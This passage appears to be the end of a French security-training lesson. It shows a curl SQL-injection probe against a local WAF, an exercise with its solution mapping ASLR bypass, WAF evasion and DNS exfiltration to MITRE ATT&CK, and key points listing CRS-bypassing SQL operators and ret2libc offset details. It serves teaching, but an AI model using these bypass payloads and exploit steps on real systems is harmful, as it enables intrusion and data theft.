curl -s -o /dev/null -w "%{http_code}" \
  "http://localhost:8081/?id=1%20AND%20SUBSTRING((SELECT%201%20FROM%20DUAL),1,1)%20LIKE%201"
# → 403 — la sous-requête SELECT déclenche le WAF (libinjection détecte la structure SQL imbriquée)
```
</details>

### Exercice 3 : Choisir la technique d'évasion

**Énoncé :** Pour chaque scénario, donnez la technique ATT&CK + l'outil/commande :

1. Buffer overflow sur un binaire avec ASLR actif
2. SQLi bloquée par ModSecurity CRS avec libinjection
3. Exfiltration malgré firewall qui bloque le port 443

<details><summary><strong>Solution</strong></summary>
1. [T1068](https://attack.mitre.org/techniques/T1068/) Privilege Escalation → ret2libc : fuite GOT + force brute multi-connexions
2. [T1562.001](https://attack.mitre.org/techniques/T1562/001/) Impair Defenses → opérateurs SQL alternatifs (`LIKE`, `IN`, `RLIKE`) ou tamper personnalisé sqlmap
3. [T1572](https://attack.mitre.org/techniques/T1572/) Protocol Tunneling → DNS tunnel (iodine) ou [T1048.003](https://attack.mitre.org/techniques/T1048/003/) Exfiltration Over Alternative Protocol
</details>

---

## Points clés à retenir

- **Buffer overflow ret2libc** : offset EIP = 76 (64 buffer + 4 padding + 4 ebx + 4 ebp) ; ASLR contourné par fuite GOT + force brute
- **Fuite printf@got** : `printf@plt("%s\n", printf@got)` → 20 octets de GOT lus ; base libc = printf_leaked - 0x57520
- **Force brute multi-connexions** : ±256 pages (4 Kio) autour de la base de référence ; ~45s pour trouver l'adresse valide
- **WAF bypass CRS** : `OR 1`, `AND 1`, `LIKE 1`, `IN (1)`, `IS TRUE`, `RLIKE 1` passent le WAF (pas de `=`, pas d'`UNION SELECT`)
- **Tampers sqlmap inefficaces** : `space2comment`, `charencode`, `randomcase` sont bloqués par le CRS moderne (libinjection)
- **[TA0005](https://attack.mitre.org/tactics/TA0005/) Defense Evasion** : 50+ techniques documentées dans ATT&CK
- Les vrais attaquants utilisent ces méthodes — le CERT-FR les documente chaque semaine

## Pour aller plus loin

- [ATT&CK Defense Evasion (TA0005)](https://attack.mitre.org/tactics/TA0005/)
- [Corelan Exploit Development](https://www.corelan.be/index.php/articles/)
- [Awesome WAF](https://github.com/0xInfection/Awesome-WAF)
- [CERT-FR](https://www.cert.ssi.gouv.fr/)
- TryHackMe : [Buffer Overflow Prep](https://tryhackme.com/room/bufferoverflowprep), [SQL Injection](https://tryhackme.com/room/sqlilab), [Windows Fundamentals](https://tryhackme.com/room/windowsfundamentals1xbx)

---

